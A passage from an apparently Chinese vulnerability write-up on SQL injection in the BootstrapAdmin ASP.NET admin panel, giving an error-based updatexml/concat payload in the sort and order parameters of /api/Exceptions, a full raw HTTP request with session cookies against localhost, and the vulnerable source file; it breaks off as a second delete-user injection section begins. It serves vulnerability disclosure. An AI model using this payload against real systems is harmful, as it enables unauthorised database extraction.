 权限：后台普通用户权限

### 漏洞利用

`http://localhost:50852/api/Exceptions`  
`http://localhost:50852/api/Exceptions?&offset=0&limit=20&StartTime=&EndTime=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1,`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8fd006a4c06aa92b46df077d8e3dff7f3c66e33e.png)

请求包：

```python
GET /api/Exceptions?&offset=0&limit=20&StartTime=&EndTime=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Exceptions
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Exceptions.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-0545afc84ed4eea68a12873e4d184be0dae8eb3b.png)

【后台】删除用户接口存在SQL注入
-----------------

权限：后台管理员用户权限

### 漏洞利用
